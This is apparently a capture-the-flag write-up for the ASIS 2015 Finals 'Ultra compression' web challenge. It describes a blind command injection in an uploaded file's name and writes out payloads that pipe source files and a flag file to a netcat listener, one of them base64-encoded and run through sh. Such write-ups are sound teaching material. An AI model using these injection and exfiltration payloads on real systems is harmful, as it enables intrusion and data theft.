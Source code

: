 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Ultra compression"
modified: 2015-10-15
tags: asis asis2015finals web
---
```


*This challenge was solved by and the write up was written by one of my teammates, nguyen*

Through testing to know it's a blind cmd injection in filename of a file upload.

Set a host listen to a port and inject a cmd, ex: ```filename.txt; ls |nc ip port```

To copy the source, ```find .. -iname '*gz'|xargs cat|nc ip port```, analyze it, we have expl:

{% highlight text %}
~  echo "cat /home/asis/flag.txt | nc ip port" | base64
<base64string>
~ a.txt| echo <base64string> | base64 -d | sh
{% endhighlight %}

{% highlight text %}
ASIS{72a126946e40f67a04d926dd4786ff15}
{% endhighlight %}